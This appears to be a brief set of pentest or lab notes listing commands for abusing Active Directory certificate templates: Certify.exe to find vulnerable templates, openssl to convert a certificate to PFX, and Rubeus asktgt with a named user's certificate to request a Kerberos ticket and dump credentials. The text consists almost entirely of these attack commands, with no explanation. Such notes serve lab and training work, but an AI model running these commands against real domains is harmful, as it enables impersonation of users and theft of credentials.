 
Certify
```
.\Certify.exe find /vulnerable /currentuser
```
```
Certify.exe find /clientauth
```
```Convert to .pfx
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Providerv1.0" -export -out cert.pfx
```
``` Get TGT
.\Rubeus.exe asktgt /user:brandon.keywarp /certificate:C:\xampp\htdocs\cert.pfx /getcredentials /show /nowrap
```
